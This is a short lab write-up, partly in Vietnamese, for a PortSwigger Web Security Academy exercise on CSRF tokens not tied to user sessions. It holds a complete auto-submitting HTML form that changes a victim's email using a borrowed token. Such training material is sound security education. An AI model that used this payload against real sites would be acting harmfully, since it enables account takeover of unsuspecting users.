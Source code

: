 # [Lab: CSRF where token is not tied to user session](https://portswigger.net/web-security/csrf/lab-token-not-tied-to-user-session)

Lỗ hổng: CSRF protection hoạt động bằng 1 token ở form. Nhưng token này không được gán với bất kì session nào. Nghĩa là có thể dùng token được tạo ra hợp lệ bất kì để dùng cho CSRF attack.

Some applications do not validate that the token belongs to the same session as the user who is making the request. Instead, the application maintains a global pool of tokens that it has issued and accepts any token that appears in this pool.

Các bước:
1. Đăng nhập với 1 trong 2 tài khoản đề bài cho
2. Ta sẽ nhận được csrf token ở hidden input của form submit đổi email
3. Tạo form với token đó
```
<html>
    <body>
        <form action="https://0a100054039dfe41c0a46a8a002e0063.web-security-academy.net/my-account/change-email" method="POST">
            <input type="hidden" name="email" value="pwned@evil-user.net" />
            <input required="" type="hidden" name="csrf" value="SojzWcJGL7YR0f7aD7ZdDdwNrbsYzXRq">
        </form>
        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>
```
4. Gửi lên exploit là xong